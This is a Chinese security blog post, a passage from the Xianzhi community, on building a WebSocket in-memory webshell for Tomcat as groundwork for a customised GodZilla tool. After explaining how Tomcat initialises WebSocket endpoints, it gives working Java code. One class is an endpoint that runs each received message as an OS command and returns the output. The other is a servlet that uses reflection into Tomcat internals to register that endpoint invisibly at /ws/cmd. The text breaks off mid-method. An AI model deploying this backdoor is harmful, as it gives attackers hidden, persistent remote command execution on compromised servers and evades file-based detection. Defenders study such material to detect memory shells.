# Java内存马篇——WebSocket内存马及GodZilla二开-先知社区

> **来源**: https://xz.aliyun.com/news/18420  
> **文章ID**: 18420

---

# 前言

一个月前写的，当时正在做webshell相关的工作，刚好看到stoocea师傅发的文章，便也有了自己实现一个WebSocket版本GodZilla的想法。

WebSocket 是一种基于 TCP 协议的全双工通信协议。相比于Http单向请求——响应模式，WebSocket允许客户端和服务器可同时发送和接收数据，无需等待对方请求。当然​，在握手阶段任然使用Http协议，发送升级请求后得到对方的同意升级响应后，后续便可直接使用Websocket协议交流。

如果想了解更多关于WebSocket的知识可以参考：[WebSocket通信原理和在Tomcat中实现源码详解（万字爆肝）\_tomcat websockt 源码分析-CSDN博客](https://blog.csdn.net/weixin_36586120/article/details/120025498)

从中可以了解到如果想要注入一个WebSocket类型的内存马需要对面中间件条件是：支持JSR356规范（如Tomcat 7.0.47+、Jetty 9.4+）

## WebSocket内存马

与其他Valve、Filter等内存马一样，我们同样需要动态注册某个组件进去，在这里就是服务端端点(Endpoint)。如果我们要制作一个恶意的Endpoint，可以通过以下两种方式：

* 标注注解@ServerEndpoint
* 继承抽象类javax.websocket.Endpoint

我们先来用ServerEdnpoint注解实现一个WebSocket的Demo。

### ServerEndpoint注解实现

通过`@ServerEndpoint`注解标记WebSocket服务端点类。

```
package cmisl;  
  
import javax.websocket.*;  
import javax.websocket.server.ServerEndpoint;  
import java.io.IOException;  
  
@ServerEndpoint("/ws")  
public class WebSocketDemo {  
  
    @OnOpen  
    public void onOpen(Session session) {  
        System.out.println("WebSocket连接建立: " + session.getId());  
    }  
  
    @OnMessage  
    public void onMessage(String message, Session session) {  
        try {  
            // 回显接收到的消息  
            session.getBasicRemote().sendText("ECHO: " + message);  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
  
    @OnClose  
    public void onClose(Session session) {  
        System.out.println("WebSocket连接关闭: " + session.getId());  
    }  
  
    @OnError  
    public void onError(Session session, Throwable error) {  
        error.printStackTrace();  
    }  
}
```



上面就是一个Websocket的demo了，同样的，类似Filter的doFilter和Listener的requestInitialized，WebSocket同样需要实现一套自己的生命周期方法。如图分别是@OpOpen、@OnMessage、@OnError、@OnError。从名字上看也不难理解，下面是对应的介绍：

`@OnOpen`

* **触发时机**​：客户端与服务端完成握手后调用，仅执行一次。
* **功能**​：初始化会话资源，记录连接时间等。

`@OnMessage`

* **触发时机**​：接收到客户端发送的消息时调用。
* **功能**​：处理文本、二进制或 Pong 消息，支持异步响应。

`@OnError`

* **触发时机**​：连接或端点发生异常时调用。
* **功能**​：捕获未处理的异常，防止服务崩溃，记录日志或发送错误通知。

`@OnClose`

* **触发时机**​：连接关闭时调用（无论主动或被动关闭）。
* **功能**​：释放资源、记录日志或发送最终通知。

### javax.websocket.Endpoint继承实现

需要实现`implements MessageHandler.Whole<String>`，以获取onMessage方法。或者只继承Endpoint类然后在onOpen中为session添加一个MessageHandler来注册消息处理器，本质没有区别。

此外消息处理一般除了String还可以用ByteBuffer来处理二进制消息。

```
package cmisl;  
  
import javax.websocket.Endpoint;  
import javax.websocket.EndpointConfig;  
import javax.websocket.Session;  
import javax.websocket.MessageHandler;  
import java.io.IOException;  
  
public class MyWebSocketEndpoint extends Endpoint implements MessageHandler.Whole<String> {  
  
    private Session session;  
  
    @Override  
    public void onOpen(Session session, EndpointConfig config) {  
        System.out.println("WebSocket opened: " + session.getId());  
        this.session = session;  
        session.addMessageHandler(this); 
    }  
  
    @Override  
    public void onMessage(String message) {  
        handleMessage(message);  
    }  
  
    private void handleMessage(String message) {  
        System.out.println("Received message: " + message);  
        try {  
            session.getBasicRemote().sendText("Echo: " + message);  
        } catch (IOException e) {  
            e.printStackTrace();  
        }  
    }  
  
    @Override  
    public void onClose(Session session, javax.websocket.CloseReason closeReason) {  
        System.out.println("WebSocket closed: " + session.getId());  
    }  
  
    @Override  
    public void onError(Session session, Throwable thr) {  
        System.err.println("WebSocket error on session " + session.getId() + ": " + thr.getMessage());  
    }  
}
```

### 初始化流程

Apache Tomcat中用于启动Web应用上下文会调用到 `standardContext.startInternal` 方法，负责初始化一些Web应用的组件和资源，比如Servlet、Filter、Listener，因此在Tomcat型内存马的时候也会提及该方法。这个方法中会触发 `ServletContainerInitializers` 初始化。然后调用`ServletContainerInitializer` 接口的 `onStartup()`方法，它是 Java EE / Jakarta EE 规范中的标准机制，用于在 Web 应用启动时执行一些自定义的初始化逻辑，框架（如 Spring、WebSocket、Jersey 等）就会利用它进行自动配置和初始化。



Tomcat中的WebSocket就是基于此机制实现的。在Tomcat的jar包中，包含文件`META-INF/services/javax.servlet.ServletContainerInitializer`。内容指向`org.apache.tomcat.websocket.server.WsSci`，当 Tomcat 启动 web 应用时，Servlet 容器会通过 SPI（Service Provider Interface）发现并加载所有的 `ServletContainerInitializer` 实现。其中就包括WsSci，因此在上面提到的过程中就会调用到WsSci的onStartup方法中。



首先会初始化一个WebSocket容器，然后筛选WebSocket组件，包括通过配置定义、继承Endpoint、@ServerEndpoint注解的WebSocket服务端点。然后将筛选出来的类添加到WebSocket容器中。





### 连接流程

WebSocket连接开始还是Http请求，如下图：



请求发给Tomcat时，Tomcat会有一个过滤器，WsFilter。这个过滤器是Tomcat用于将普通的HTTP请求升级为WebSocket请求的组件。  
简而言之：

> HTTP 请求 → `WsFilter` 判断是否是 WebSocket 请求 → 发起升级协议（HTTP ➝ WebSocket） → 建立 WebSocket 连接

首先就是if判断，this.sc.areEndpointsRegistered()会先判断WebSocket容器中是否存在服务端点ServerEndPoint组件注册，后续在继续深入这个方法，这里并非一定要有组件才会返回true，有相关配置也是可以的。



第二个判断是isWebSocketUpgradeRequest方法判断该请求是否是WebSocket升级请求，代码如下：

```
public static boolean isWebSocketUpgradeRequest(ServletRequest request, ServletResponse response) {  
    return request instanceof HttpServletRequest && response instanceof HttpServletResponse && headerContainsToken((HttpServletRequest)request, "Upgrade", "websocket") && "GET".equals(((HttpServletRequest)request).getMethod());  
}
```

我们需要两个判断都为true，这样才能进入if代码中升级请求。`isWebSocketUpgradeRequest`这个判断很容易理解，也很容易构造，正常的HTTP的Get请求+Upgrade: websocket请求头即可。因此我们关注点可以看到第一个判断中。

第一个判断返回的是WebSocket容器的`endpointsRegistered`属性，这个属性默认是false，如果要返回true，只有在`addEndPoint`方法中才会将其设置为true。



这里有两个参数，

> `sec`：通过注解或显式注册的 WebSocket 配置对象 `ServerEndpointConfig`fromAnnotatedPojo`：是否来自注解` @ServerEndpoint`（true）或是通过程序方式添加（false）

这个方法虽然不能直接调用，但是我们可以调用它的重载`addEndPoint(ServerEndpointConfig sec)`，这样的话其实我们只需要传入一个参数即可。



这样看来我们就需要构造`ServerEndpointConfig`实例，并且还需要获取当前Tomcat服务器中的`WsServerContainer`。以便于去调用其`addEndPoint`方法来让`endpointsRegistered`属性变为true。

#### 构造ServerEndpointConfig实例

`ServerEndpointConfig`是一个接口，可以注意到这个接口的build方法中，会new一个`DefaultServerEndpointConfig`实例出来，而`DefaultServerEndpointConfig`刚好是`ServerEndpointConfig`接口的实现。`Builder` 是 `ServerEndpointConfig` 的一个静态内部类。



#### 获取WsServerContainer

WsServerContainer是在WsSci#init中创建的。



创建后的WsServerContainer会设置到ApplicationContext中的attributes中，是一个键值对，键名是`javax.websocket.server.ServerContainer`，当然在tomcat10中就需要将javax修改为jakarta，因为从 Tomcat 10 开始，Java Servlet API 的包名改为了 jakarta.servlet。值就是我们需要的WsServerContainer，也就是当前应用中的WebSocket容器了。



## 编写内存马

先来一段WebSocket shell：

```
package cmisl;  
  
import javax.websocket.Endpoint;  
import javax.websocket.EndpointConfig;  
import javax.websocket.MessageHandler;  
import javax.websocket.Session;  
import java.io.BufferedReader;  
import java.io.InputStreamReader;  
  
public class cmdWebSocket extends Endpoint implements MessageHandler.Whole<String> {  
  
    private Session session;  
  
    @Override  
    public void onOpen(Session session, EndpointConfig endpointConfig) {  
        this.session = session;  
        session.addMessageHandler(this);  
    }  
  
    @Override  
    public void onMessage(String command) {  
        try {  
            StringBuilder output = new StringBuilder();  
            Process process = Runtime.getRuntime().exec(command);  
  
            try (  
                    BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
                    BufferedReader errReader = new BufferedReader(new InputStreamReader(process.getErrorStream()))  
            ) {  
                String line;  
                while ((line = reader.readLine()) != null) {  
                    output.append(line).append("
");  
                }  
                while ((line = errReader.readLine()) != null) {  
                    output.append(line).append("
");  
                }  
            }  
  
            session.getBasicRemote().sendText(output.toString());  
        } catch (Exception e) {  
            try {  
                session.getBasicRemote().sendText("Error: " + e.getMessage());  
            } catch (Exception ex) {  
                ex.printStackTrace();  
            }  
        }  
    }  
}
```



接着要有一个注入点，我这里有用Servlet代替了，主要是能执行一段能够注入上方WebSocket Shell的代码就行。

```
package cmisl;  
  
import org.apache.catalina.core.StandardContext;  
  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Method;  
import java.util.ArrayList;  
import java.util.HashMap;  
import java.util.List;  
import java.util.concurrent.ConcurrentHashMap;  
import javax.servlet.ServletContext;  
import javax.servlet.annotation.WebServlet;  
import javax.servlet.http.HttpServlet;  
import javax.servlet.http.HttpServletRequest;  
import javax.servlet.http.HttpServletResponse;  
import javax.websocket.server.ServerEndpointConfig;  
  
import org.apache.catalina.core.StandardContext;  
import org.apache.tomcat.websocket.server.WsServerContainer;  
  
  
@WebServlet(name = "cmdShellServlet", urlPatterns = {"/cmd"})  
public class cmdShellServlet extends HttpServlet {  
  
    @Override  
    protected void doGet(HttpServletRequest request, HttpServletResponse response) {  
  
        try {  
            List<Object> contexts = getContext();  
            ServletContext servletContext = null;  
  
            for (Object context : contexts) {  
                servletContext = (ServletContext) invokeMethod(context, "getServletContext");  
            }  
  
            Object applicationContext = getFV(servletContext, "context");  
  
            Object attributes = getFV(applicationContext, "attributes");  
            WsServerContainer wsServerContainer= (WsServerContainer) ((ConcurrentHashMap) attributes).get("javax.websocket.server.ServerContainer");  
  
            ServerEndpointConfig.Builder builder = ServerEndpointConfig.Builder.create(cmdWebSocket.class, "/ws/cmd");  
            ServerEndpointConfig build = builder.build();  
  
            wsServerContainer.addEndpoint(build);  
  
        } catch (Exception e) {  
        }  
    }  
  
    @Override  
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {  
        doGet(request, response);  
    }  
  
    public List<Object> getContext() throws IllegalAccessException, NoSuchMethodException, InvocationTargetException {  
        List<Object> contexts = new ArrayList<Object>();  
        Thread[] threads = (Thread[]) invokeMethod(Thread.class, "getThreads");  
        Object context = null;  
        try {  
            for (Thread thread : threads) {  
                // 适配 v5/v6/7/8                
                if (thread.getName().contains("ContainerBackgroundProcessor") && context == null) {  
                    HashMap childrenMap = (HashMap) getFV(getFV(getFV(thread, "target"), "this$0"), "children");  
                    for (Object key : childrenMap.keySet()) {  
                        HashMap children = (HashMap) getFV(childrenMap.get(key), "children");  
                        for (Object key1 : children.keySet()) {  
                            context = children.get(key1);  
                            if (context != null && context.getClass().getName().contains("StandardContext"))  
                                contexts.add(context);  
                            if (context != null && context.getClass().getName().contains("TomcatEmbeddedContext"))  
                                contexts.add(context);  
                        }  
                    }  
                }  
                // 适配 tomcat v9                
                else if (thread.getContextClassLoader() != null && (thread.getContextClassLoader().getClass().toString().contains("ParallelWebappClassLoader") || thread.getContextClassLoader().getClass().toString().contains("TomcatEmbeddedWebappClassLoader"))) {  
                    context = getFV(getFV(thread.getContextClassLoader(), "resources"), "context");  
                    if (context != null && context.getClass().getName().contains("StandardContext"))  
                        contexts.add(context);  
                    if (context != null && context.getClass().getName().contains("TomcatEmbeddedContext"))  
                        contexts.add(context);  
                }  
            }  
        } catch (Exception e) {  
            throw new RuntimeException(e);  
        }  
        return contexts;  
    }  
  
    static Object getFV(Object obj, String fieldName) throws Exception {  
        Field field = getF(obj, fieldName);  
        field.setAccessible(true);  
        return field.get(obj);  
    }  
  
    static Field getF(Object obj, String fieldName) throws NoSuchFieldException {  
        Class<?> clazz = obj.getClass();  
        while (clazz != null) {  
            try {  
                Field field = clazz.getDeclaredField(fieldName);  
                field.setAccessible(true);  
                return field;  
            } catch (NoSuchFieldException e) {  
                clazz = clazz.getSuperclass();  
            }  
        }  
        throw new NoSuchFieldException(fieldName);  
    }  
  
    static synchronized Object invokeMethod(Object targetObject, String methodName) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {  
        return invokeMethod(targetObject, methodName, new Class[0], new Object[0]);  
    }  
  
    public static synchronized Object invokeMethod(final Object obj, final String methodName, Class[] paramClazz, Object[] param) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {  
        Class clazz = (obj instanceof Class) ? (Class) obj : obj.getClass();  
        Method method = null;  
  
        Class tempClass = clazz;  
        while (method == null && tempClass != null) {  
            try {  
                if (paramClazz == null) {  
                    // Get all declared methods of the class  
                    Method[] methods = tempClass.getDeclaredMethods();  
                    for (int i = 0; i < methods.length; i++) {  
                        if (methods[i].getName().equals(methodName) && methods[i].getParameterTypes().length == 0) {  
                            method = methods[i];  
                            break;  
                        }  
                    }  
                } else {  
                    method = tempClass.getDeclaredMethod(methodName, paramClazz);  
                }  
            } catch (NoSuchMethodException e) {  
                tempClass = tempClass.getSuperclass();  
            }  
        }  
        if (method == null) {  
            throw new NoSuchMethodException(methodName);  
        }  
        method.setAccessible(true);  
        if (obj instanceof Class) {  
            try {  
                return method.invoke(null, param);  
            } catch (IllegalAccessException e) {  
                throw new RuntimeException(e.getMessage());  
            }  
